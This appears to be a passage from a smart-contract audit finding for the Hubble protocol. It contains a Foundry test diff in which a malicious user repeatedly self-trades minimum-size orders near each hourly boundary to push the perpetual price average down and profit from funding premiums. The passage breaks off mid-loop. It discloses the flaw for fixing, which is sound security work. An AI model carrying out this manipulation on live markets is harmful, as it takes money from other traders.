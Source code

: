 Below is a diff to the existing test suite with a test case that shows how a malicious user could control premiums to make a profit. It can be run with `forge test -vvv --match-path test/foundry/OrderBook.t.sol`:

```diff
diff --git a/hubble-protocol/test/foundry/OrderBook.t.sol b/hubble-protocol/test/foundry/OrderBook.t.sol
index b4dafdf..f5d36b2 100644
--- a/hubble-protocol/test/foundry/OrderBook.t.sol
+++ b/hubble-protocol/test/foundry/OrderBook.t.sol
@@ -228,6 +228,60 @@ contract OrderBookTests is Utils {
         assertPositions(bob, -size, quote, 0, quote * 1e18 / stdMath.abs(size));
     }
 
+    function testUserCanControlEmissions() public {
+        uint256 price = 1e6;
+        oracle.setUnderlyingPrice(address(wavax), int(uint(price)));
+
+        // Calculate how much margin required for 100x MIN_SIZE
+        uint256 marginRequired = orderBook.getRequiredMargin(100 * MIN_SIZE, price) * 1e18 / uint(defaultWethPrice) + 1e10; // required weth margin in 1e18, add 1e10 for any precision loss
+        
+        // Let's say Alice is our malicious user, and Bob is a normal user
+        addMargin(alice, marginRequired, 1, address(weth));
+        addMargin(bob, marginRequired, 1, address(weth));
+
+        // Alice places a large legitimate long order that is matched with a short order from Bob
+        placeAndExecuteOrder(0, aliceKey, bobKey, MIN_SIZE * 90, price, true, false, MIN_SIZE * 90, false);
+
+        // Alice's free margin is now pretty low
+        int256 availabeMargin = marginAccount.getAvailableMargin(alice);
+        assertApproxEqRel(availabeMargin, 200410, 0.1e18); // Assert within 10%
+
+        // Calculate what's the least we could fill an order for given the oracle price
+        uint256 spreadLimit = amm.maxOracleSpreadRatio();
+        uint minPrice = price * (1e6 - spreadLimit) / 1e6;
+
+        // Alice can fill both sides of an order at the minimum fill price calculated above, with the minimum size
+        // Alice would place such orders (and hopefully have them executed) just after anyone else makes an order in a period (1 hour)
+        // The goal for Alice is to keep the perpetual TWAP as low as possible vs the oracle TWAP (since she holds a large long position)
+        // In quiet market conditions Alice just has to make sure she's the last person to fill
+        // In busy market conditions Alice would fill an order immediately after anyone else fills an order
+        // In this test Alice fills an order every 2 periods, but in reality, if nobody was trading then Alice wouldn't have to do anything provided she was the last filler
+        for (uint i = 0; i < 100; i++) {
+            uint256 currentPeriodStart = (block.timestamp / 1 hours) * 1 hours;
+
+            // Warp to before the end of the period
+            vm.warp(currentPeriodStart + 3590);
+            
+            // Place and execute both sides of an order as Alice
+            // Alice can do this because once both sides of the order are executed, the effect to her free margin is 0
+            // As mentioned above, Alice would place such orders every time after another order is executed
+            placeAndExecuteOrder(0, aliceKey, aliceKey, MIN_SIZE, minPrice, true, false, MIN_SIZE, false);
+            
+            // Warp to the start of the next period
```